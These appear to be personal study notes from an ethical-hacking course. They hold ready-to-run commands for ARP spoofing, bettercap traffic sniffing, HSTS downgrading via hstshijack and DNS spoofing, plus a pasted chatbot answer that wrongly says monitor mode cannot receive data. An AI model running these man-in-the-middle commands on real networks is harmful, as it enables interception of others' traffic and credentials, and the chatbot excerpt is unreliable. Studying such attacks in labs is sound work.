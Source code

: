 
https://drive.google.com/file/d/1vDtlRctvO7HUeQRSdTqDubAyiPN2uObY/view?usp=drive_web


[https://drive.google.com/file/d/1vDtlRctvO7HUeQRSdTqDubAyiPN2uObY/view?usp=drive_web](https://drive.google.com/file/d/1vDtlRctvO7HUeQRSdTqDubAyiPN2uObY/view?usp=drive_web)

# **section 11 (Address resolution protocol spoofing)**

ARP basically provides Ip addresses to a mac addresses in a network

arp -n

- to perform arpspoofing using tool called ( arpspoof )
    
- (in this we take victim machine packets to our machine) V37
    
    C:\home\kali> sudo su
    
    [sudo] password for kali: ┌──(root㉿kali)-[/home/kali] └─# **arpspoof -i wlan1 -t 192.168.10.105 192.168.10.1**
    
- (by this we take routers packets to our machine) V38
    
    C:\home\kali> sudo su
    
    [sudo] password for kali: ┌──(root㉿kali)-[/home/kali] └─# **arpspoof -i wlan1 -t 192.168.10.1 192.168.10.105**
    
- (command to forward victims packets to router )
    
    (root㉿kali)-[/home/kali] └─# sudo echo 1 > /proc/sys/net/ipv4/ip_forward
    
- using Bettercap tool for arpspoofing (V39)
    
    (root㉿kali)-[/home/kali] └─**# bettercap -iface wlan0**
    
    **» net.probe on**
    
    **» net.show**
    
    > > help
    
    V40
    
    » help arp.spoof
    
    » set arp.spoof.fullduplex true (both victim machine and router are spoofed by using this command)
    
    > > set arp.spoof.targets 192.168.10.105
    
    » arp.spoof on
    
    » help net.sniff
    
    » net.sniff on
    
    - Video 42 Creating Custom Spoofing Script
        
        (All Bettercap command to run an arp spoofing attack)
        
        net.probe on
        
        set arp.spoof.fullduplex true
        
        set arp.spoof.targets 192.168.10.102
        
        arp.spoof on
        
        set net.sniff.local true
        
        net.sniff on
        
        Here's a revised sequence of commands based on your scenario:
        
        [root㉿kali]-[/home/kali] └─# bettercap -iface wlan0
        
        » set arp.spoof.fullduplex true
        
        » arp.spoof on
        
        » set net.sniff.local true
        
        » net.sniff on
        
        OR just make a arpspoof.cap file with above content and save it in root folder and run bettercap with this command:-
        
        bettercap -iface wlan0 -caplet arpspoof.cap
        
    
    ## but monitor mode cant connect with wifi then how
    
    ![https://www.gstatic.com/lamda/images/sparkle_resting_v2_darkmode_2bdb7df2724e450073ede.gif](https://www.gstatic.com/lamda/images/sparkle_resting_v2_darkmode_2bdb7df2724e450073ede.gif)
    
    You are correct, a wireless network interface in monitor mode cannot connect to a WiFi network. This is because monitor mode disables the ability of the interface to transmit and receive data, which is necessary for connecting to a WiFi network.
    
    In order to connect to a WiFi network, you need to change the mode of the wireless network interface to managed mode. In managed mode, the interface can transmit and receive data, which is necessary for connecting to a WiFi network.
    
    Once you have connected to a WiFi network, you can then put the interface back into monitor mode to sniff network traffic or to perform other tasks that require monitor mode.
    
    To change the mode of a wireless network interface, you can use the `iwconfig` command. For example, to change the mode of the interface `wlan1` to managed mode, you would run the following command:
    
    `sudo iwconfig wlan1 mode managed`
    
    Once the mode of the interface is changed to managed, you can connect to a WiFi network by providing the network name (SSID) and password.
    
    To put the interface back into monitor mode, you can run the following command:
    
    `sudo iwconfig wlan1 mode monitor`
    
    [https://www.vulnhub.com/entry/hacker-fest-2019,378/](https://www.vulnhub.com/entry/hacker-fest-2019,378/)
    
    - **the arpspoof caplet must have**
        
        net.probe on
        
        set arp.spoof.fullduplex true
        
        set arp.spoof.targets <victims ip address>
        
        arp.spoof on
        
        set net.sniff.local true
        
        net.sniff on
        
        hstshijack/hstshijack —> (caplet work is if there is HTTPS it convert/downgrade it into http)
        
- **V45 Bypassing HSTS**
    
    PWD = /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap
    
    this hstshijack.cap has targets and replacements:-
    
    set hstshijack.targets [google.com](http://google.com/), _.google.com, [gstatic.com](http://gstatic.com/), .gstatic.com,[twitter.com](http://twitter.com/),.twitter.com set hstshijack.replacements google.corn,_.google.corn,gstatic.corn,_.gstatic.corn,[twitter.com](http://twitter.com/),_.twitter.com
    
- **V48 DNS spoofing**
    
    C:\home\kali> service apache2 start (web server that comes with kali) its html file ar in var/www/html
    
    dns.spoof.address : IP address to map the domains to. (default is <your own devices interface address>)
    
    set dns.spoof.all true
    
    set [dns.spoof.domains](http://dns.spoof.domains) [zsecurity.org](http://zsecurity.org),_.zsecurity.org,[gbjbuzz.com](https://www.gbjbuzz.com/),_.gbjbuzz.com
    
    dns.spoof on